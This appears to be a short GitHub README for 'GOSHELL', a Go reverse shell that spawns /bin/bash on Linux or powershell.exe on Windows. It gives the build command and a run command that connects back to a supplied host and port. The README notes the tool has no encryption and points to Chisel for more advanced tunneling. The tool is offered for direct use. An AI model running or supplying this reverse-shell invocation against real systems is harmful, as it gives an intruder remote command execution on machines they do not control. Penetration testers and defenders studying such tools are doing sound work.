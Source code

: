 # GOSHELL

Simple golang based reverse shell. This calls `/bin/bash` on linux and `powershell.exe` on windows

## Build

```bash
make
```

## Run

```bash
./goshell-xxx-xx -host IP -port PORT
```

## Notes

This will not provide encryption or any other securiy measures - this is just a simple reverse shell. If you need something more advanced take a look at [Chisel](https://github.com/jpillora/chisel)
